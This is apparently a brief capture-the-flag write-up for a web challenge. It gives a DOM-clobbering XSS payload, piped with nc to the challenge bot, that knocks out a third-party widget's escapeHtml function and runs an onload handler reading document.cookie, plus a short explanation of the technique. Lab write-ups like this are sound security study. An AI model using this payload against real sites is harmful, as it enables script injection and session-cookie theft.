 # Task

web: http://65.109.209.215:15000/

bot: echo URL | http://65.109.209.215:14000/

Please download the attachment


# Writeup

Payload:
```
echo '<p id="Beamer" name="pushDomain"></p><p id="Beamer"></p><a id="Beamer" name="customDomain" href="http:'"'"'/onload='"'"'console.log(document.cookie)'"'"'/x='"'"'"></a><a id="beamerOverlay"><p id="Beamer" name="escapeHtml"></p></a>' | nc 65.109.209.215 14000
```
Exlpain:

It was about using a (novel?) dom cloberring technique. In short, in non strict mode HTML collections are not configurable. Because of this, if you clobber window.Beamer.escapeHtml, even if it tries to set it, it won't work. Thanks to this you need to find a gadget to remove the escapeHtml cloberring node to make the window.Beamer.escapeHtml function undefined to bypass every HTML encoding calls :)

kevin_mizu обещал full writeup

